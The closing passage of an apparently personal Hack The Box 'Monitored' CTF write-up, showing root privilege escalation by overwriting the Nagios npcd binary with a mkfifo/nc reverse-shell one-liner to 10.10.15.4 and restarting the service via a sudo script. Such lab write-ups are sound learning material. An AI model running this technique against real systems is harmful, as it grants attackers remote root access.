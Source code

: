 1. Stop the service 

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
```

2. Edit `npcd` 

```
echo '#!/bin/bash' > /usr/local/nagios/bin/npcd

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.4 5555 >/tmp/f' >> /usr/local/nagios/bin/npcd
```

3. Start a listener and start the `npcd` service using the script.

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

We get a root shell on our listener and we can read the root flag at `/root/root.txt`.

![Root flag](/images/HTB-Monitored/root-flag.png)

Monitored was a fun challenge forcing me to up my scanning and enumeration game, this was the first time I had to use a UDP scan for a CTF. I hope this write up was helpful! If you have any questions you can reach out on Twitter at [_KScorpio](https://twitter.com/_KScorpio).

